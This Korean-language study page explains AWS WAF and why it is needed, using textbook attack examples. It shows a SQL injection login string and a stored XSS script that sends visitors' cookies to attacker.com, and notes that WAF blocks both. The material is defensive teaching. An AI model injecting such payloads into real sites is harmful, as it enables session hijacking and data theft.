

repository: GYUTORY/YGSTUDY · page: Cloud/AWS/Security/WAF/index.html · generator: mkdocs

---
title: AWS WAF (Web Application Firewall)
tags: [aws, security, cdn, cloud]
updated: 2026-11-18
---

# AWS WAF (Web Application Firewall)

## 개요

WAF는 웹 애플리케이션을 보호하는 방화벽이다. HTTP/HTTPS 요청을 검사해서 악의적인 트래픽을 차단한다. SQL Injection, XSS, DDoS 공격을 방어한다. ALB, CloudFront, API Gateway 앞단에 배치한다.

### 왜 필요한가

웹 애플리케이션은 공격에 노출되어 있다.

#### 문제 상황 1: SQL Injection

로그인 폼에 악의적인 입력을 한다.

```
Username: admin' OR '1'='1
Password: anything
```

입력값이 그대로 쿼리에 붙는 취약한 코드에서는 이런 쿼리가 만들어진다.

```sql
SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='anything'
```

`'1'='1'`은 항상 참이다. 모든 사용자 정보가 노출된다.

이 문제를 코드에서 막으려면 애플리케이션 코드를 수정해야 한다. 시간이 걸리고, 이미 배포된 코드는 취약한 채로 남는다.

WAF는 SQL Injection 패턴을 탐지한다.

```
admin' OR '1'='1
```

이런 패턴이 있으면 요청을 차단한다. 애플리케이션까지 도달하지 않는다.

#### 문제 상황 2: XSS (Cross-Site Scripting)

게시판에 스크립트를 삽입한다.

```html
<script>
  document.location='http://attacker.com/steal?cookie='+document.cookie
</script>
```

다른 사용자가 게시글을 보면 쿠키가 탈취된다.

WAF는 `<script>` 태그를 포함한 요청을 차단한다. XSS 공격이 차단된다.
